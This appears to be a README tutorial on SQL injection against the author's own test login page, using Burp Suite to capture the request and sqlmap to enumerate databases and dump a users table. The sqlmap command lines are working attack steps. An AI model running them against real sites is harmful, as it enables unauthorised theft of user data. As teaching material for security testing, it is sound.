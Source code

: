 #### Using SQLMAP tool and Burp suite we are going to attack and retreat data from our created website(http://phone.com/index.php)


Check for SQL Vulnerablity in targeted website if yes then proceed with following process 

use simple payloads to make sure site is vulnerable. 

### Step 1.
 
Open Browser and take your targeted website and give some random username and password and wait to hit login 

![image](/screenshots/Browser1.png)

### Step 2.

Now turn on your Burp suite, make your intercept on to capture your login page session and go to browser and click on login this session will be capture by Burp suite save that captured session as a file(sql1) on desktop (convenent floder).


### Step 3.

Check for SQL Vulnerablity in targeted website if yes then proced with following process 

Now open sqlmap tool in your system terminal.

(Please go to this link for installation of SQLMAP tool in kali linux)

(will update link shortly)

>sqlmap

![image](/screenshots/SQL1.png)

>sqlmap -r sql1 http://phone.com/index.php -dbs

-r   --  stands for
sql1 --  saved file name 
http://phone.com/index.php --  Targeted website 
dbs  --  Databases

Give Yes to all search fields. 
then if its is vulnerable then you can see as below

![image](/screenshots/SQL2.png)

>sqlmap -r sql1 http://phone.com/index.php -D phone -T users --dump

In this above command sqlmap search all kind of parameters.

D - Database 
phone - Database name
T     -  Table
users - Tale names
dump  - dumping total data in table called users.

![image](/screenshots/SQL3.png)
![image](/screenshots/SQL4.png)






